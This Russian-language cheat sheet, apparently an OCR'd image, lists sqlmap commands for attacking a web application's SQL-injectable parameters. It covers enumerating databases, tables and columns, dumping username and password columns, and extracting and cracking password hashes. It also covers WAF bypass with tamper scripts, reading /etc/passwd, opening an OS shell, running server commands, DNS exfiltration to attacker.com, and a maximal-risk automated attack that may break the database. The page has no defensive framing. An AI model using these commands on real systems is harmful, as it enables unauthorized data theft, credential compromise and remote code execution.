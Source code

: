 Определение базы данных:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --dbs

Определение таблиц в базе:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" -D target_db --tables

Определение колонок в таблице:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" -D target_db -T target_table --columns

Извлечение данных из таблицы:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" -D target_db -T target_table -C username,password --dump

_______________________________________________________________________________________________________________________________________

GET-параметры
> ```bash
> sqlmap -u "http://example.com/index.php?id=1"

POST-параметры
> ```bash
> sqlmap -u "http://example.com/login.php" --data="username=admin&password=123"

Cookie-параметры
> ```bash
> sqlmap -u "http://example.com/profile.php" --cookie="PHPSESSID=abcd1234"

HTTP-заголовки (User-Agent, Referer, X-Forwarded-For и т. д.)
> ```bash
> sqlmap -u "http://example.com/" --headers="User-Agent: evil_payload"

_______________________________________________________________________________________________________________________________________

Определение типа инъекции
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --technique=U
```Где U – Union-based, можно заменить на B (Boolean-based), T (Time-based) и т. д.```

Обход WAF (Web Application Firewall)
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --tamper=space2comment
```Можно использовать другие tamper-скрипты, например charencode, randomcase и т. д.```

Определение уровня привилегий
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --privileges

Получение учетных данных пользователей базы
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --users



Получение хешей паролей
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --passwords

Попытка дешифровки хешей
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --crack

Автоматическое определение всех уязвимых параметров
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --forms --crawl=3
Ищет SQL-инъекции во всех найденных формах на сайте

Поиск файлов на сервере
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --file-read="/etc/passwd"

Загрузка шелла на сервер
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --os-shell

Запуск команд на сервере
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --os-cmd="whoami"

Обход защиты через Time-based SQL Injection
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --technique=T --time-sec=5

Атака через DNS (Blind SQL Injection)
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --dns-domain=attacker.com

Запуск мощной автоматической атаки
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --level=5 --risk=3 --batch
```
--level=5 – увеличивает глубину проверки
--risk=3 – максимальный уровень риска (может сломать базу)
--batch – отключает вопросы (запускает атаку автоматически)
